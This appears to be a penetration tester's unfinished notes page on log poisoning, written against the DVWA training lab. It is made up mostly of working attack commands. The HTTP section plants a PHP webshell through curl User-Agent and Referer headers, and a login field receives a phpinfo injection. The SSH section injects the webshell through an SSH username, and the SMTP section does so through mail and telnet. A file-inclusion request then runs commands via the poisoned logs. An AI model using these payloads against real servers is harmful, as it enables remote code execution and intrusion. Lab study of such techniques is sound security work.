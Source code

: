 # Manual

TODO: include conditions and screenshots for the attack vectors

## HTTP

### Access Log

Make a valid request with the code in the `User-Agent` header.

```
$ curl -H 'User-Agent' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local" -v
```

### Error Log

Make an invalid request, an invalid inclusion for example, with the suitable `Referer` header.

```
$ curl -H 'Referer' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local/urldoesnotexist" -v
```

#### PHP Sessions

TODO: Go to authentication page to include PHP code to poison error log then perform a file inclusion.

```
username=<?=phpinfo();?>&password=test
```

## SSH

SSH logs the username of each connection. Create a connection to SSH with the suitable username.

```
$ ssh '<?php system($_GET['c']); ?>'@dvwa.local
```

```
/var/log/auth.log&cmd=ifconfig
```

## SMTP

```
$ mail -s "<?php system($_GET['cmd']);?>" www-data@dvwa.local < /dev/null
```

Enumerate valid [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/Mail Server/SMTP|SMTP]] user accounts then poison the log with a webshell.

```
$ telnet dvwa.local 25

MAIL FROM:<test@email.com>
RCPT TO:<?php system($_GET['cmd']); ?>

Subject: This is a test
<?php system($_GET['cmd']);?>

.
```

Exploit it.

```
$ curl http://dvwa.local/index.php?page=/var/mail/www-data&cmd=id
```

---
## References

### Backlinks

- [[Log Poisoning]]